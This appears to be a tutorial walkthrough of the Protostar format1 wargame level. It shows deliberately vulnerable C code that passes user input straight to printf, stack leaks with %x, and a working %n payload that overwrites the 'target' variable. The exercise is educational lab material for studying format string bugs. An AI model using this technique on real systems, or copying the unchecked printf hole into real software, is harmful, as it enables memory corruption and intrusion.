

#### 17. A simple Format String exploit

```sh
m64@vm ~ $ man printf
```


```sh
m64@vm ~ $ man 3 printf
```




[`Format Strings in Python 2.7`](https://docs.python.org/2.7/library/string.html#format-examples)

[`Format Strings in Python 3.4`](https://docs.python.org/3.4/library/string.html#formatexamples)

```sh
m64@vm ~ $ python
Python 2.7.12 (default, Dec  4 2017, 14:50:18)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> print "%d %x %s" % (123, 2056, "this is a string")
123 808 this is a string
>>>
```

###### Protostar Format1

- This level shows how format strings can be used to modify arbitrary memory locations.
- Hints
	- `objdump -t` is your friend, and your input string lies far up the stack :)
- This level is at `/opt/protostar/bin/format1`

`format1.c`

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

```sh
user@protostar:/opt/protostar/bin$ ./format1 AAAA
AAAA
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format1 BBBB
BBBB
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format1 "%d %d %d %d"
134518284 -1073743928 134513769 -1208122620
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format1 "%x %x %x %x"
804960c bffff7c8 8048469 b7fd8304
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ objdump -t format1

format1:     file format elf32-i386

SYMBOL TABLE:
08048114 l    d  .interp	00000000              .interp
08048128 l    d  .note.ABI-tag	00000000              .note.ABI-tag
08048148 l    d  .note.gnu.build-id	00000000              .note.gnu.build-id
0804816c l    d  .hash	00000000              .hash
08048198 l    d  .gnu.hash	00000000              .gnu.hash
080481b8 l    d  .dynsym	00000000              .dynsym
08048218 l    d  .dynstr	00000000              .dynstr
0804826a l    d  .gnu.version	00000000              .gnu.version
08048278 l    d  .gnu.version_r	00000000              .gnu.version_r
08048298 l    d  .rel.dyn	00000000              .rel.dyn
080482a0 l    d  .rel.plt	00000000              .rel.plt
080482c0 l    d  .init	00000000              .init
080482f0 l    d  .plt	00000000              .plt
08048340 l    d  .text	00000000              .text
080484dc l    d  .fini	00000000              .fini
080484f8 l    d  .rodata	00000000              .rodata
08048520 l    d  .eh_frame	00000000              .eh_frame
08049524 l    d  .ctors	00000000              .ctors
0804952c l    d  .dtors	00000000              .dtors
08049534 l    d  .jcr	00000000              .jcr
08049538 l    d  .dynamic	00000000              .dynamic
08049608 l    d  .got	00000000              .got
0804960c l    d  .got.plt	00000000              .got.plt
08049628 l    d  .data	00000000              .data
08049630 l    d  .bss	00000000              .bss
00000000 l    d  .stab	00000000              .stab
00000000 l    d  .stabstr	00000000              .stabstr
00000000 l    d  .comment	00000000              .comment
00000000 l    df *ABS*	00000000              crtstuff.c
08049524 l     O .ctors	00000000              __CTOR_LIST__
0804952c l     O .dtors	00000000              __DTOR_LIST__
08049534 l     O .jcr	00000000              __JCR_LIST__
08048370 l     F .text	00000000              __do_global_dtors_aux
08049630 l     O .bss	00000001              completed.5982
08049634 l     O .bss	00000004              dtor_idx.5984
080483d0 l     F .text	00000000              frame_dummy
00000000 l    df *ABS*	00000000              crtstuff.c
08049528 l     O .ctors	00000000              __CTOR_END__
08048520 l     O .eh_frame	00000000              __FRAME_END__
08049534 l     O .jcr	00000000              __JCR_END__
080484b0 l     F .text	00000000              __do_global_ctors_aux
00000000 l    df *ABS*	00000000              format1.c
0804960c l     O .got.plt	00000000              .hidden _GLOBAL_OFFSET_TABLE_
08049524 l       .ctors	00000000              .hidden __init_array_end
08049524 l       .ctors	00000000              .hidden __init_array_start
08049538 l     O .dynamic	00000000              .hidden _DYNAMIC
08049628  w      .data	00000000              data_start
08048440 g     F .text	00000005              __libc_csu_fini
08048340 g     F .text	00000000              _start
00000000  w      *UND*	00000000              __gmon_start__
00000000  w      *UND*	00000000              _Jv_RegisterClasses
080484f8 g     O .rodata	00000004              _fp_hw
080484dc g     F .fini	00000000              _fini
00000000       F *UND*	00000000              __libc_start_main@@GLIBC_2.0
080484fc g     O .rodata	00000004              _IO_stdin_used
08049628 g       .data	00000000              __data_start
0804962c g     O .data	00000000              .hidden __dso_handle
08049530 g     O .dtors	00000000              .hidden __DTOR_END__
08048450 g     F .text	0000005a              __libc_csu_init
00000000       F *UND*	00000000              printf@@GLIBC_2.0
08049630 g       *ABS*	00000000              __bss_start
080483f4 g     F .text	00000028              vuln
08049638 g     O .bss	00000004              target
0804963c g       *ABS*	00000000              _end
00000000       F *UND*	00000000              puts@@GLIBC_2.0
08049630 g       *ABS*	00000000              _edata
080484aa g     F .text	00000000              .hidden __i686.get_pc_thunk.bx
0804841c g     F .text	0000001b              main
080482c0 g     F .init	00000000              _init


user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ objdump -t format1 | grep target
08049638 g     O .bss	00000004              target
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print '%x'*10"`"
804960cbffff7c88048469b7fd8304b7fd7ff4bffff7c88048435bffff98bb7ff1040804845b
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print '%x '*10"`"
804960c bffff7b8 8048469 b7fd8304 b7fd7ff4 bffff7b8 8048435 bffff981 b7ff1040 804845b 
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print '%x '*100"`"
804960c bffff6a8 8048469 b7fd8304 b7fd7ff4 bffff6a8 8048435 bffff873 b7ff1040 804845b b7fd7ff4 8048450 0 bffff728 b7eadc76 2 bffff754 bffff760 b7fe1848 bffff710 ffffffff b7ffeff4 804824d 1 bffff710 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff728 eac837db c09d21cb 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff754 8048450 8048440 b7ff1040 bffff74c b7fff8f8 2 bffff869 bffff873 0 bffff9a0 bffff9ae bffff9c2 bffff9e2 bffff9f5 bffff9ff bffffeef bfffff2d bfffff41 bfffff58 bfffff69 bfffff71 bfffff81 bfffff8e bfffffbf bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 f8bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print '%x '*200"`"
804960c bffff578 8048469 b7fd8304 b7fd7ff4 bffff578 8048435 bffff747 b7ff1040 804845b b7fd7ff4 8048450 0 bffff5f8 b7eadc76 2 bffff624 bffff630 b7fe1848 bffff5e0 ffffffff b7ffeff4 804824d 1 bffff5e0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff5f8 979268c8 bdc11ed8 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff624 8048450 8048440 b7ff1040 bffff61c b7fff8f8 2 bffff73d bffff747 0 bffff9a0 bffff9ae bffff9c2 bffff9e2 bffff9f5 bffff9ff bffffeef bfffff2d bfffff41 bfffff58 bfffff69 bfffff71 bfffff81 bfffff8e bfffffbf bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 f8bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff71b 1f bffffff2 f bffff72b 0 0 79000000 b42ecee0 afdbb43c 6d2a6a31 69d4a5b3 363836 0 0 0 662f2e00 616d726f 25003174 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 
user@protostar:/opt/protostar/bin$
```

```sh
>>> "20782520".decode('hex')
' x% '
>>> "25207825".decode('hex')
'% x%'
>>>
```

[`Stack layout`](https://www.win.tue.nl/~aeb/linux/hh/stack-layout.html)

```sh
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAAAAAA' + '%x '*200"`"
AAAAAAAA804960c bffff578 8048469 b7fd8304 b7fd7ff4 bffff578 8048435 bffff73f b7ff1040 804845b b7fd7ff4 8048450 0 bffff5f8 b7eadc76 2 bffff624 bffff630 b7fe1848 bffff5e0 ffffffff b7ffeff4 804824d 1 bffff5e0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff5f8 bd490a1a 971a7c0a 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff624 8048450 8048440 b7ff1040 bffff61c b7fff8f8 2 bffff735 bffff73f 0 bffff9a0 bffff9ae bffff9c2 bffff9e2 bffff9f5 bffff9ff bffffeef bfffff2d bfffff41 bfffff58 bfffff69 bfffff71 bfffff81 bfffff8e bfffffbf bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 f8bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff71b 1f bffffff2 f bffff72b 0 0 21000000 5d242ca bb2a151 ed3c3707 697b9084 363836 0 662f2e00 616d726f 41003174 41414141 25414141 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA' + '\x38\x96\x04\x08' + '%x '*200"`"
AAAA8804960c bffff578 8048469 b7fd8304 b7fd7ff4 bffff578 8048435 bffff73f b7ff1040 804845b b7fd7ff4 8048450 0 bffff5f8 b7eadc76 2 bffff624 bffff630 b7fe1848 bffff5e0 ffffffff b7ffeff4 804824d 1 bffff5e0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff5f8 2d585925 70b2f35 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff624 8048450 8048440 b7ff1040 bffff61c b7fff8f8 2 bffff735 bffff73f 0 bffff9a0 bffff9ae bffff9c2 bffff9e2 bffff9f5 bffff9ff bffffeef bfffff2d bfffff41 bfffff58 bfffff69 bfffff71 bfffff81 bfffff8e bfffffbf bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 f8bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff71b 1f bffffff2 f bffff72b 0 0 53000000 acc1d9bc 8f2d6959 9491a4e2 69a1db5d 363836 0 662f2e00 616d726f 41003174 38414141 25080496 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA' + '\x38\x96\x04\x08' + 'BBBBB' + '%x '*198"`"
AAAA8BBBBB804960c bffff578 8048469 b7fd8304 b7fd7ff4 bffff578 8048435 bffff740 b7ff1040 804845b b7fd7ff4 8048450 0 bffff5f8 b7eadc76 2 bffff624 bffff630 b7fe1848 bffff5e0 ffffffff b7ffeff4 804824d 1 bffff5e0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff5f8 6e89d101 44daa711 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff624 8048450 8048440 b7ff1040 bffff61c b7fff8f8 2 bffff736 bffff740 0 bffff9a0 bffff9ae bffff9c2 bffff9e2 bffff9f5 bffff9ff bffffeef bfffff2d bfffff41 bfffff58 bfffff69 bfffff71 bfffff81 bfffff8e bfffffbf bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 f8bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff71b 1f bffffff2 f bffff72b 0 0 9e000000 6863ca84 df3f48b1 624807d9 69cb4b1e 363836 0 2f2e0000 6d726f66 317461 41414141 8049638 42424242 20782542 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 user@protostar:/opt/protostar/bin$
```


```sh
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA' + '\x38\x96\x04\x08' + 'BBBBB' + '%x '*130"`"
AAAA8BBBBB804960c bffff648 8048469 b7fd8304 b7fd7ff4 bffff648 8048435 bffff80c b7ff1040 804845b b7fd7ff4 8048450 0 bffff6c8 b7eadc76 2 bffff6f4 bffff700 b7fe1848 bffff6b0 ffffffff b7ffeff4 804824d 1 bffff6b0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6c8 45c982ae 6f9d54be 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff6f4 8048450 8048440 b7ff1040 bffff6ec b7fff8f8 2 bffff802 bffff80c 0 bffff9a0 bffff9ae bffff9c2 bffff9e2 bffff9f5 bffff9ff bffffeef bfffff2d bfffff41 bfffff58 bfffff69 bfffff71 bfffff81 bfffff8e bfffffbf bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 f8bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7eb 1f bffffff2 f bffff7fb 0 0 d0000000 91f1302f a2e8dd12 2fb3634d 6919c9ba 363836 2f2e0000 6d726f66 317461 41414141 8049638 42424242 20782542 
user@protostar:/opt/protostar/bin$
```


```sh
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA' + '\x38\x96\x04\x08' + 'BBBB' + '%x '*129"`"
AAAA8BBBB804960c bffff648 8048469 b7fd8304 b7fd7ff4 bffff648 8048435 bffff810 b7ff1040 804845b b7fd7ff4 8048450 0 bffff6c8 b7eadc76 2 bffff6f4 bffff700 b7fe1848 bffff6b0 ffffffff b7ffeff4 804824d 1 bffff6b0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6c8 2cec66ca 6b8b0da 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff6f4 8048450 8048440 b7ff1040 bffff6ec b7fff8f8 2 bffff806 bffff810 0 bffff9a0 bffff9ae bffff9c2 bffff9e2 bffff9f5 bffff9ff bffffeef bfffff2d bfffff41 bfffff58 bfffff69 bfffff71 bfffff81 bfffff8e bfffffbf bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 f8bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7eb 1f bffffff2 f bffff7fb 0 0 10000000 6334ea9b cdae980 7c4bc3ba 6995fffc 363836 0 2f2e0000 6d726f66 317461 41414141 8049638 user@protostar:/opt/protostar/bin$
```


```sh
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA' + '\x38\x96\x04\x08' + 'BBBB' + '%x '*128 + '%x '"`"
AAAA8BBBB804960c bffff648 8048469 b7fd8304 b7fd7ff4 bffff648 8048435 bffff810 b7ff1040 804845b b7fd7ff4 8048450 0 bffff6c8 b7eadc76 2 bffff6f4 bffff700 b7fe1848 bffff6b0 ffffffff b7ffeff4 804824d 1 bffff6b0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6c8 93009c3f b9544a2f 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff6f4 8048450 8048440 b7ff1040 bffff6ec b7fff8f8 2 bffff806 bffff810 0 bffff9a0 bffff9ae bffff9c2 bffff9e2 bffff9f5 bffff9ff bffffeef bfffff2d bfffff41 bfffff58 bfffff69 bfffff71 bfffff81 bfffff8e bfffffbf bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 f8bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7eb 1f bffffff2 f bffff7fb 0 0 2000000 1e374bca 16a03676 67b2aa2b 69306acd 363836 0 2f2e0000 6d726f66 317461 41414141 8049638 
user@protostar:/opt/protostar/bin$
```


```sh
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA' + '\x38\x96\x04\x08' + 'BBBB' + '%x '*128 + '%n '"`"
AAAA8BBBB804960c bffff648 8048469 b7fd8304 b7fd7ff4 bffff648 8048435 bffff810 b7ff1040 804845b b7fd7ff4 8048450 0 bffff6c8 b7eadc76 2 bffff6f4 bffff700 b7fe1848 bffff6b0 ffffffff b7ffeff4 804824d 1 bffff6b0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6c8 a8b6ab20 82e27d30 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff6f4 8048450 8048440 b7ff1040 bffff6ec b7fff8f8 2 bffff806 bffff810 0 bffff9a0 bffff9ae bffff9c2 bffff9e2 bffff9f5 bffff9ff bffffeef bfffff2d bfffff41 bfffff58 bfffff69 bfffff71 bfffff81 bfffff8e bfffffbf bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 f8bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7eb 1f bffffff2 f bffff7fb 0 0 4000000 57fe324 a92fabad 3bcf8de2 69e789f3 363836 0 2f2e0000 6d726f66 317461 41414141  you have modified the target :)
user@protostar:/opt/protostar/bin$
```

